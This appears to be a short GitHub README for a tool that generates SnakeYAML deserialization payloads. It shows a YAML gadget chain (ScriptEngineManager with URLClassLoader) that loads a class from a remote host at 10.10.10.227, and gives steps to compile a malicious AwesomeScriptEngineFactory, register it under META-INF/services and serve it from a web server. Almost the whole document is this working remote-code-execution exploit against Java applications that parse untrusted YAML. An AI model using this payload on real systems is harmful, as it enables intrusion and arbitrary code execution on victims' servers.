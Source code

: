 # yaml-parser-payload
payload parser yaml javaweb


A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):

-------yaml parser javaweb------------
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.10.227/"]
  ]]
]
```
Put the java code you want execute into [AwesomeScriptEngineFactory.java] and compile:

------bash console-----
```bash
javac AwesomeScriptEngineFactory.java

folder exploit / 
        META-INF/services/javax.script.ScriptEngineFactory inside file put h1dr0.AwesomeScriptEngineFactory/
        h1dr0/AwesomeScriptEngineFactory.class
```
Then place the 'AwesomeScriptEngineFactory.class' file in to the web server folder (e.g. h1dr0/AwesomeScriptEngineFactory.class)
